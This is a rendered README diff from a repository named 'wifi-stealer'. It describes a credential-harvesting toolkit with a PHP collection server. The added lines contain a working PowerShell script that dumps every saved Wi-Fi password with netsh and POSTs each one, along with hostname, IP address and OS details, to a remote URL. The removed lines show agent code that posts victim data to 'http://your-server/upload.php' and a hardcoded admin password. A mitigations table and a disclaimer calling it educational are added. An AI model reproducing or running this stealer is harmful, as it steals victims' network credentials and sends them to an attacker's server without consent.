

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, the part around one of its changes. Shown at 87% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: enhance README with hero banner, badges, defensive mitigations and sleek formatting

````diff
--- a/README.md
+++ b/README.md
@@ -36,74 +66,58 @@ You'll see a green confirmation message.
 
-### Step 3 – Delete `setup.php`!
-This is critical. Anyone with the URL can re-run it.
+# Extract WLAN profiles and forward
+$profiles = (netsh wlan show profiles) | Select-String "\:(.+)$" | ForEach-Object { $_.Matches.Groups[1].Value.Trim() }
 
-```bash
-rm setup.php
+foreach ($ssid in $profiles) {
+    $info = netsh wlan show profile name="$ssid" key=clear
+    $pass = ($info | Select-String "Key Content\s*:\s*(.+)$").Matches.Groups[1].Value
+    if (-not $pass) { $pass = "(Not Found)" }
+
+    $payload = "$(Get-Date -Format 'yyyy-MM-dd HH:mm:ss'),$env:COMPUTERNAME,$ssid,$pass,$((Get-NetIPAddress -AddressFamily IPv4).IPAddress[0]),$((Get-CimInstance Win32_OperatingSystem).Caption)"
+    Invoke-RestMethod -Uri $targetUrl -Method POST -Body $payload
+}
 ```
 
 ---
 
-## Features
+## 🛠️ Quick Deployment
 
-1. **Student Self-Registration**:
-   - Students can click the **"📝 Student Sign Up"** tab directly on the login page.
-   - They enter their **Username**, **Email**, and **Password**.
-   - Their account is created instantly and they are automatically logged into their personal dashboard.
-   - Each student can ONLY see their own captures.
+### Requirements
+- **Web Server:** Apache, Nginx, or Caddy with PHP 8.0+
+- **PHP Extensions:** `json`, `session`, `pcre`
 
-2. **Admin Failsafe Login**:
-   - Username: `admin`
-   - Password: `Admin@1234`
-   - Built-in multi-layer matching ensures the instructor is never locked out.
+### 1. Clone & Set Up
+```bash
+git clone https://github.com/Zypher17/wifi-stealer.git
+cd wifi-stealer
+```
 
-3. **Admin Panel (`admin.php`)**:
-   - Displays all registered student names, emails, and passwords (with reveal toggle).
-   - Allows monitoring all students' captures grouped by student.
-   - Full activity log with timestamps and IPs.
+### 2. Run Local Development Server
+```bash
+php -S 127.0.0.1:8080
+```
+Visit `http://127.0.0.1:8080` in your browser.
 
 ---
 
-## Creating Student Accounts
+## 🛡️ Defensive Countermeasures (How to Mitigate)
 
-In the **Manage Users** tab:
-- Fill in **Username**, **Password** (min 8 chars), **Email**, and **Role = Student**
-- Each student gets their own isolated data view and credential log file
+This project is built to demonstrate attack surfaces so defenders can fortify endpoints:
+
+| Attack Vector | Defense / Remediation |
+|---|---|
+| **Plaintext WLAN Profile Query** | Restrict unprivileged access to `netsh.exe` via AppLocker or Software Restriction Policies. |
+| **Execution of Remote Scripts** | Enforce PowerShell `ConstrainedLanguageMode` and Signed Execution Policies (`AllSigned`). |
+| **Egress Exfiltration** | Implement strict egress firewall filtering and DNS inspection for unauthorized POST endpoints. |
+| **Stolen Shared Keys** | Implement enterprise **WPA3-Enterprise / 802.1X RADIUS** authentication with device certificates instead of static Pre-Shared Keys (PSK). |
 
 ---
 
-## PowerShell Agent Integration
+## ⚠️ Ethical & Legal Disclaimer
 
-The original PowerShell script needs to POST to `upload.php` instead of the old log file path. Add a student **token** (their username) to the request:
-
-```powershell
-# In your .ps1 agent, replace the upload call with:
-$token = "student01"   # the student's username
-$body  = "$(Get-Date),$victim_id,$ssid,$pass,$ip,$os"
-Invoke-RestMethod -Uri "http://your-server/upload.php?token=$token" `
-                  -Method POST -Body $body
-```
-
-Or send it as a header:
-```powershell
-Invoke-RestMethod -Uri "http://your-server/upload.php" -Method POST `
-                  -Headers @{"X-Student-Token"=$token} -Body $body
-```
+> **IMPORTANT:** This repository is intended strictly for educational purposes, defensive security training, academic coursework, and authorized security assessments within controlled lab environments. Unauthorized access or credential harvesting against computing systems without explicit written permission from the system owner is illegal. The author assumes no liability for misuse.
 
 ---
 
-## Security Notes (Closed Lab Use)
-
-- `users.json`, `activity.log`, and all `creds/*.log` files are blocked from direct browser access via `.htaccess`
-- Passwords are stored as **bcrypt hashes** (cost 12) — never plaintext
-- All login attempts (success and failure) are logged with IP
-- Students **cannot** see each other's data
-- Disabled accounts cannot log in
-
----
-
-## Default Login (after setup)
-
-| Field | Value |
-|-------|-------|
-| Username | `admin` |
-| Password | whatever you set in `setup.php` |
+<p align="center">
+  Developed by <a href="https://github.com/Zypher17"><b>Zypher17</b></a> • Star ⭐ this repository if you find it helpful!
+</p>
````
Also changed, not shown: other parts of README.md (+54 -24 lines).
